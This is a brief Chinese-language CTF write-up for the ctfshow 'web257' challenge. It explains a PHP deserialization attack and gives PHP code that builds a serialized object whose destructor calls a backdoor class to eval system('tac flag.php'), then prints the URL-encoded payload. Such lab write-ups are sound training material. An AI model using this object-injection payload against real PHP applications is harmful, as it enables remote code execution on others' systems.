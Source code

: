 # web257
关键在于如何实现rce,需构造序列化数据,调用后门类
关键:$this->class=new backDoor();
```
<?php
class ctfShowUser{
    private $username='xxxxxx';
    private $password='xxxxxx';
    private $isVip=false;
    private $class = 'info';

    public function __construct(){
        $this->class=new backDoor();
    }
    public function login($u,$p){
        return $this->username===$u&&$this->password===$p;
    }
    public function __destruct(){
        $this->class->getInfo();
    }

}

class backDoor{
    private $code="system('tac flag.php');";
    public function getInfo(){
        eval($this->code);
    }
}

echo  urlencode(serialize(new ctfShowUser()));

```
![](vx_images/257817442875713.png)